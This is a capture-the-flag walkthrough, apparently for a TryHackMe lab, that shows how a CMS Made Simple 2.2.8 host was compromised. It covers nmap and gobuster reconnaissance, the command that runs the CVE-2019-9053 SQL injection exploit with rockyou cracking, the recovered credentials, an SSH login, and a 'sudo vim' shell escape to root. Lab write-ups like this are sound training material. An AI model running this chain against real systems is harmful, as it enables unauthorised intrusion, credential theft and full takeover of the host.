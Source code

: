 # TryHackMe CTF Walkthrough

## 1. Services Running Under Port 1000
**Question:** How many services are running under port 1000?  
**Answer:** 2  
**Command:** 
```bash
nmap -sV [Target_Machine_Ip] -T5
```

**Nmap Scan Results:**
```
Starting Nmap 7.94SVN (https://nmap.org) at 2024-10-03 13:06 EEST 
Nmap scan report for 10.10.66.220
Host is up (0.086s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 29.27 seconds
```

## 2. Higher Port Service
**Question:** What is running on the higher port?  
**Answer:** SSH  

## 3. Directory Enumeration
**Command:**
```bash
gobuster dir -u http://[Target_Machine_Ip] -w /usr/share/wordlists/dirb/big.txt
```
**Gobuster Scan Results:**
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.66.220
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 300]
/simple               (Status: 301) [Size: 313] [--> http://10.10.66.220/simple/]                                                         

Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
```
**Method:** After visiting http://[Target_Machine_Ip]/simple, we can discern that CMS Made Simple 2.2.8 is being used at the bottom of the page.


## 4. CVE Used
**Question:** What's the CVE you're using against the application?  
**Answer:** CVE-2019-9053  
**Reference:** [Exploit Database CVE-2019-9053](https://www.exploit-db.com/exploits/46635)






## 5. Application Vulnerability
**Question:** To what kind of vulnerability is the application vulnerable?  
**Answer:** SQLi  


## 6. Exploiting the Vulnerability
**Question:** What can you leverage to exploit the vulnerability?  
**Answer:**   
**Command:**
```bash
python 46635.py -u http://[Target_Machine_Ip]/simple --crack -w /usr/share/wordlists/rockyou.txt
```

## 7. Exploit Output
**Question:** What information do you receive after exploiting the vulnerability?  
**Output:**
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

## 8. Login Information
**Question:** Where can you log in with the details obtained?  
**Answer:** SSH  

**Question:** What password do you enter when prompted?  
**Answer:** secret  

## 9. User Flag
**Question:** What’s the user flag?  
**Answer:** G___ ___, ____ _p!  
**Method:** After logging in, the user can easily find the `user.txt` file in the home directory.

## 10. Other User in Home Directory
**Question:** Is there any other user in the home directory? What’s its name?  
**Answer:** sunbath  
**Method:** Navigate to the previous directory using `cd ..` and list the contents with `ls` to find another user.

## 11. Spawning a Privileged Shell
**Question:** What can you leverage to spawn a privileged shell?  
**Answer:** vim  
**Method:** After running the command:
```bash
sudo -l
```

## 12. Command to Spawn Privileged Shell
**Question:** What command do you use to spawn a privileged shell?  
**Command:**
```bash
sudo vim -c ':!/bin/sh'
```

## 13. Finding the Root Flag
**Question:** How do you find the root flag?  
**Method:** Navigate to the root folder to find the `root.txt` file.  


**Flag:** W___ ____. ___ ____ _t!

